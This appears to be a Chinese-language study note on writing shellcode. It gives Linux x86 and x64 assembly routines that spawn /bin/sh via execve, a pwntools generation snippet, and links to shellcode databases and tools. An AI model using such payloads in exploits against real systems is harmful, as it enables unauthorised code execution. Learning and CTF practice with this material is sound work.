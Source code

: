 # Shellcode

## 编写

```asm
# linux/x86 execve("/bin/sh", 0, 0)
global _start
_start:
    push "/sh"
    push "/bin"
    mov  ebx, esp ;; pathname = "/bin/sh"
    xor  edx, edx ;; argv = 0
    xor  ecx, ecx ;; envp = 0
    mov  al, 0xb  ;; execve
    int  0x80     ;; syscall
```

```asm
# linux/x86 execve("/bin/sh", 0, 0)
global _start
_start:
    xor  edx, edx ;; argv = 0
    xor  ecx, ecx ;; envp = 0
    push ecx
    push "/sh"
    push "/bin"
    mov  ebx, esp ;; pathname = "/bin/sh"
    mov  al, 0xb  ;; execve
    int  0x80     ;; syscall
```

```asm
# linux/x64 execve("/bin/sh", 0, 0)
global _start
_start:    
    mov  rbx, "/bin/sh"
    push rbx
    push rsp
    pop  rdi
    xor  esi, esi
    xor  edx, edx
    push 0x3b
    pop  rax
    syscall
```

- [Linux 系统调用](https://publicki.top/syscall.html)

## 生成

- 利用 [ALPHA3](https://github.com/TaQini/alpha3) 生成由可见字符集构成的 shellcode.
- 利用 [MSF](./Metasploit.md) 生成 shellcode.
- 利用 pwntools 生成特定架构和系统的 shellcode.

    ```py
    from pwn import*
    context(log_level = 'debug', arch = 'i386', os = 'linux') # linux/x86
    shellcode = asm(shellcraft.sh())
    ```

## 拓展

- [Exploit Database Shellcodes](https://www.exploit-db.com/shellcodes)
- <http://shell-storm.org/shellcode/>
